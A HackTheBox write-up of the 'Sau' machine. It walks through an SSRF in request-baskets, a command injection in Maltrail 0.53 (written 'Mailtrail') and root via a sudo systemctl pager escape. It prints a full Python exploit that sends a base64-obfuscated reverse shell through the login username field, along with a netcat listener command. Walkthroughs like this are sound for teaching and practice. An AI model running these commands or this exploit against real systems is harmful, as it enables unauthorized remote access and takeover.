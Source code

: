 ```yaml
---
title: "SAU"
date: 2023-12-31
layout: "simple"
categories: [Boot2root]
tags: [HackTheBox]
image: https://i.ibb.co/cgYN2Kr/th-3134630742.jpg
---
```


Hello and welcome to my first writeup on Hack the box machines. We will be handling an easy machine named Sau. We will use real vulnerabilities that were discovered before and we will also make use of exploits that had been used before. Let's begin.

## Enumaration

First of all we are going to run a NMAP scan to scan for open ports.

![1](https://i.ibb.co/bFPd1Sv/nmap.png) 

![2](https://i.ibb.co/Z23FwTJ/report.png)

From the scan we can see that port 22 is open on which ssh runs. But since we have no credentials we would not be able to use this. We can then see that the port 80 has been filtered which would mean we cannot communicate with it from outside the network. Then port 55555 would definately catch our attention. From the report we can see that the port is accessible on our browser and it allows for the get option.

We can access this by `http://machine_ip:55555` which will lead us to a page with request baskets.

## Request-baskets SSRF

When we visit the page this is what we can see

![3](https://i.ibb.co/CWbzyxx/55555.png) 

This is basically a page which creates request-baskets. What is interesting is we have a service and a version running. We can look this up and we see that we have a lurking vulnerability which is `Server Side Request Forgery`. This vulnerability exists due to some improper validation in a path and would ideally be leveraged to connect to any HTTP server on the network. 

To exploit this we need to create a basket and change some of the configurations on the basket.

![4](https://i.ibb.co/p43QH7R/configuration.png)

First we need to set an URL where the requests will be forwarded to. We can use localhost and set the port to port `80`.

Secondly we need to set `insecure_tls` to true which will ideally bypass the certificate verification.
Next, we need to set `proxy response` to true which will send response of the forwarded server back to our client.

Lastly, setting `expand_path` set to true makes forward_url path expanded when original http request contains compound path.

From here we only need to visit the URL so as to trigger this vulnerability.

## Exploiting Mailtrail

So when we visit the URL we can see a page that looks like this

![5](https://i.ibb.co/bKqqHK3/mailtrail.png)

We do not see much but we get a service running and its version. We can then look for the vulnerabilities associated with the service and version running.

We then can get a python exploit script which would exploit a command injection vulnerability. The exploit creates a reverse shell payload encoded in Base64 to bypass potential protections like WAF, IPS or IDS and delivers it to the target URL using a curl command
The payload is then executed on the target system, establishing a reverse shell connection back to the attacker's specified IP and port

The python script is as follows:
   
    #!/bin/python3

    import sys
    import os
    import base64

    # Arguments to be passed
    YOUR_IP = sys.argv[1]  # <your ip>
    YOUR_PORT = sys.argv[2]  # <your port>
    TARGET_URL = sys.argv[3]  # <target url>

    print("\n[+]Started MailTrail version 0.53 Exploit")

    # Fail-safe for arguments
    if len(sys.argv) != 4:
        print("Usage: python3 mailtrail.py <your ip> <your port> <target url>")
        sys.exit(-1)


    # Exploit the vulnerbility
    def exploit(my_ip, my_port, target_url):
    # Defining python3 reverse shell payload
        payload = f'python3 -c \'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{my_ip}",{my_port}));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")\''
    # Encoding the payload with base64 encoding
        encoded_payload = base64.b64encode(payload.encode()).decode()
    # curl command that is to be executed on our system to exploit mailtrail
        command = f"curl '{target_url}/login' --data 'username=;`echo+\"{encoded_payload}\"+|+base64+-d+|+sh`'"
    # Executing it
        os.system(command)


    print("\n[+]Exploiting MailTrail on {}".format(str(TARGET_URL)))
    try:
        exploit(YOUR_IP, YOUR_PORT, TARGET_URL)
        print("\n[+] Successfully Exploited")
        print("\n[+] Check your Reverse Shell Listener")
    except:
        print("\n[!] An Error has occured. Try again!")


First we need to run a netcat listener on our machine, `nc -lnvp port`.

Next we need to execute the exploit example, `python3 exploit.py [ip] [port] [target_url]`.
From here we need to check at our listener for any connections. And we should be connected as a user.

![6](https://i.ibb.co/kD3nP6H/user.png)

## Privilege Escalation

Next we should try to escalate our privileges to root. Well we can run `sudo -l` which would help us to know what commands we can run as `sudo`.

![7](https://i.ibb.co/sv9GX12/privesc.png)

We see that we can run `systemctl status trail.sevice` as sudo. Then we can run `!sh` and press return.

![8](https://i.ibb.co/Fz1H9zr/root.png)

We are root. We can then find our flags.

## Conclusion 
HTB machines are awesome. Happy hacking 
